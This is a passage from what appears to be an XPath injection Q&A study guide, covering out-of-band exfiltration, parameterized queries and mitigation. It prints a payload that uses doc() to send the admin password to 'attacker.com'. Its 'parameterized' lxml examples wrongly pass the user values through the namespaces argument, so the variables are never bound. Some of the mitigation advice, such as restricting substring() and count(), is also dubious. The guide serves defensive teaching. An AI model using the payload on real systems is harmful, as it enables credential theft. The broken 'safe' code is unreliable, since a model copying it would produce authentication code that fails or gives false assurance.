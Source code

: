 
### 6. **What is an "Out of Band" XPath Injection attack, and how is it used to exfiltrate data?**
   - **Answer:** An Out-of-Band XPath Injection attack occurs when an attacker causes the application to send sensitive data to an external server controlled by the attacker. This data is sent through HTTP requests or other communication channels, allowing the attacker to exfiltrate data without directly observing the application’s responses.
   - **Example Payload (Exfiltrating data to an attacker-controlled server):**  
     ```xpath
     //user[username='admin']/password/text() and doc('//attacker.com?data='+//user[username='admin']/password)
     ```
     This payload exfiltrates the password of the user "admin" to an external server by making an HTTP request.

---

### 7. **How can XPath queries be parameterized to prevent XPath injection vulnerabilities?**
   - **Answer:** Parameterized XPath queries use placeholders for user input, preventing the direct injection of malicious input into the XPath expression. This ensures that user input is treated as data, not as part of the query structure.
   - **Example (Parameterized Query in Python with `lxml`):**  
     ```python
     from lxml import etree
     tree = etree.parse("users.xml")
     username = "admin"
     password = "password123"
     result = tree.xpath("//user[name/text()=$username and password/text()=$password]/account/text()", 
                         namespaces={"username": username, "password": password})
     ```
     In this query, the user input is passed as parameters, avoiding direct concatenation with the XPath expression.

---

### 8. **Explain how you would mitigate XPath injection in an application that uses XML-based authentication.**
   - **Answer:** To mitigate XPath Injection, you should:
     1. **Sanitize User Input:** Ensure that all user inputs are validated and sanitized to prevent special characters from altering the XPath structure (e.g., `"` or `'`).
     2. **Use Prepared Statements:** Use libraries or frameworks that support parameterized XPath queries, which automatically handle user input securely.
     3. **Limit XPath Functions:** Restrict the use of dangerous XPath functions (like `substring()`, `count()`) if they are not necessary for the application.
     4. **Error Handling:** Avoid exposing detailed error messages to users, which could help attackers infer the structure of the XML document.
   - **Example of Mitigation (Prepared Statement):**  
     ```python
     # Example of using a safe parameterized query in Python
     safe_query = "//user[name/text()=$username and password/text()=$password]/account/text()"
     result = tree.xpath(safe_query, namespaces={"username": username, "password": password})
     ```

---